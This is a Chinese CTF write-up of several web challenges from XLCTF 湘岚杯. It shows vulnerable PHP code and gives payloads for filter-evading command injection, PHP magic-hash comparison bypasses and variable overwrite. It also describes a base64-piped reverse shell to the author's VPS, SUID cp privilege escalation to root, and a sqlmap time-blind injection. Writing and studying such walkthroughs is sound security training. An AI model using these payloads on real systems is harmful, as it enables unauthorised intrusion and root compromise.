








# XLCTF-湘岚杯-WEB题解-先知社区

> **来源**: https://xz.aliyun.com/news/16626  
> **文章ID**: 16626

---

# XL::CTF-湘岚杯-WEB题解-frank1q22

## WEB

#### 大道轮回

下发容器，得到代码：

```
<?php
session_start();
/*
跳出轮回的真谛开头是:XNCTF
*/
show_source(__FILE__);
error_reporting(0);
if (isset($_GET['sha256']) && isset($_GET['cmd'])) {
    $sha256 = $_GET['sha256'];
    $cmd = $_GET['cmd'];


    if (substr(sha256($sha256), 0, 6) === '647d99') {
        echo "踏平坎坷成大道，斗罢艰险又出发";

        if (preg_match("/;|cat|flag|&nbsp;|[0-9]|$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\|%|\x09|\x26/i", $cmd)) {
            echo "打破顽空，跳出轮回的真谛在：";
            system($cmd . " > /dev/null 2>&1");
        } else {
            echo "取了真经又如何，不过是只有功的泼猴";
        }
    } else {
        echo "是假易灭，是假难除";
    }
} else {
    echo "你终究不是他";
}

// SHA-256 计算函数
function sha256($data) {
    return hash('sha256', $data);
}
?>
你终究不是他
```

分析代码：


```
if (isset($_GET['sha256']) && isset($_GET['cmd'])) {
    $sha256 = $_GET['sha256'];
    $cmd = $_GET['cmd'];
```

就是判断变量是否存在  
2.

```
 if (substr(sha256($sha256), 0, 6) === '647d99') {
        echo "踏平坎坷成大道，斗罢艰险又出发";

        if (preg_match("/;|cat|flag|&nbsp;|[0-9]|$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\|%|\x09|\x26/i", $cmd)) {
            echo "打破顽空，跳出轮回的真谛在：";
            system($cmd . " > /dev/null 2>&1");
        } else {
            echo "取了真经又如何，不过是只有功的泼猴";
        }
    } else {
        echo "是假易灭，是假难除";
    }
} else {
    echo "你终究不是他";
}
```

第一个if,需要找到一个经过sha256加密后，前6位字符为：647d99;ai一个脚本

```
<?php

// 定义目标前六个字符
$target = '647d99';

// 定义一个函数来暴力破解
function find_matching_string($target) {
    // 从空字符串开始，逐步增加字符
    for ($i = 0; $i < PHP_INT_MAX; $i++) {
        // 将整数转换为字符串，模拟逐步增加的过程
        $input = (string)$i;

        // 计算当前字符串的 SHA-256 哈希值
        $hash = hash('sha256', $input);

        // 截取前六个字符并与目标进行比较
        if (substr($hash, 0, 6) === $target) {
            return $input;  // 找到符合条件的输入字符串
        }
    }

    return null;  // 如果没有找到，返回 null
}

// 调用函数并输出结果
$matching_string = find_matching_string($target);
if ($matching_string !== null) {
    echo "找到符合条件的字符串：$matching_string
";
    echo "踏平坎坷成大道，斗罢艰险又出发";
} else {
    echo "没有找到符合条件的字符串";
}

?>

```

得到满足条件字符串：3084863

第二个if就是命令执行了,可以看到，并没有过滤反斜杠，可以通过反斜杠绕过  
然后没有回显

`system($cmd . " > /dev/null 2>&1");` 这条语句执行外部命令 `$cmd`，并且将该命令的标准输出（stdout）和标准错误（stderr）都丢弃，不会显示在屏幕上，也不会返回任何内容。

但是我们传入命令时，可以隔断这个执行过程，例如  
我传入

```
ls;ls
```

拼接以后就变成了：

```
system("ls;ls > /dev/null 2>&1")
```

所以后面那个命令，就会输出重定向，前面会正常执行  


最终payload

```
http://xxxxxxxx/?sha256=3084863&&cmd=ca\t /Fl@@@g;ls
```



#### 关关难过关关过

下发容器得到源码：

```
<?php
include "secret.php";
header('Content-Type: text/html; charset=UTF-8');
show_source(__FILE__);
error_reporting(0);
#听说你很懂php
if (isset($_POST['one']) && isset($_POST['two']) && sha1((string)$_POST['one']) == md5((string)$_POST['two'])){
    echo "第一步out";
}else die("抱歉");

#md5(xxxx7894xxx)
if(isset($_POST["14_12_45"])){
    if(md5($_POST["14_12_45"]) === "19cb79e80ab6d5400950c392d077cc1c"){
        echo "你好棒呀";
        echo "下一关:".$top2;

    }
}

```

分析代码：

第一个if其实就是弱比较：分别找到转换之后以“0e”开头的字符串即可，这里注意，不能用数组来绕，因为加了前置条件，string

第二个if也是老样子，找到md5(xxxx7894xxx) 中未知的数字，最终hash值为19cb79e80ab6d5400950c392d077cc1c即可  


所以payload

```
POST:
one=aaroZmOk&&two=240610708&&14_12_45=65417894321
```

得到下一级路由：

/15d83d6f116820a5.php


来到下一关：15d83d6f116820a5.php

```
<?php
include "secret.php";
header('Content-Type: text/html; charset=UTF-8');
show_source(__FILE__);
error_reporting(0);
parse_str($_SERVER['QUERY_STRING']);
if (isset($pass)) {
    $key = sha1($pass);
}
if (isset($key) && $key == 'b84eb44c485303b69630663fc2f9c050af508dda') {
    echo "下一关：".$top3;
} else {
    die("你小汁");
}
```

分析：  
主要是这个函数**parse\_str($\_SERVER['QUERY\_STRING']);**  
这个函数，会把url后面的请求参数，转换成变量  
例如：<http://xxxxxxxx/?a=1>  
这个函数就会把a,变成一个变量$a=1;  
所以这关其实，咱们直接传入

```
?key=b84eb44c485303b69630663fc2f9c050af508dda
```

即可  


下一关地址//b3083cc69ebf4e0b.php

```
<?php
include "secret.php";
header('Content-Type: text/html; charset=UTF-8');
show_source(__FILE__);
error_reporting(0);
echo $top4;
if (isset($_POST['input'])) {
    $input = $_POST['input'];

    if (!preg_match('/ls|dir|nl|nc|cat|tail|\[|sh|cut|strings|od|curl|ping|\*|sort|ch|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|]|gcc|vi|vim|file|xxd|base64|;|date|bash|\$|\x00|`|env|\?|wget|"|\'|\|php|id|whoami|=/i', $input)) {
        system($input);
    }else{
        die("wk hacker");
    }
}
flag在 /fllllag
```

经典的代码分析，老样子，没有过滤\ ，反斜杠绕过即可  
payload

```
POST
input=c\at /fllllag
```


#### ctfer平台(

下发赛题，来到login.php界面  


从现在开始打开代理，进行抓包  
我们先注册一个登陆上去  


看数据包：



注意到这个数据包，其中有个参数user,可能会伪造admin  


成功伪造之后，发现：多了一个功能点  


直接访问：



这个地方要rce了，这里测试过后，发现是出网的，由于过滤许多函数，只能进行反弹shell了

```
payload=
frank.eyes.sh;echo base编码的payload | base64 -d| bash
```

然后在自己的vps监听1443端口，等待回弹



成功反弹，由于flag在/root下，咱们还需要提权  
典型的suid cp 提权  
查找具有suid权限的命令：

```
find / -type f -perm -4000 2>/dev/null
```


然后咱们利用cp进行提权  
文章：  
<https://www.cnblogs.com/kqdssheng/p/18286462#id4.3>  
利用payload

```
cp /bin/bash /tmp
/bin/cp --attributes-only --preserve=all /bin/cp /tmp/bash
/tmp/bash -p
```


这里euid已经是root了  
  
成功提权，直接读取flag即可

成功读取



#### 冷暴力

典型的一道时间盲注，其实sqlmap也能跑，这里直接给出sqlmap跑出的方式

SQLMAP

```
sqlmap -r C:\Users\14132\Desktop\123.txt --batch --tamper="space2comment.py" --tech=T -level=4 --risk=3
```


成功跑出
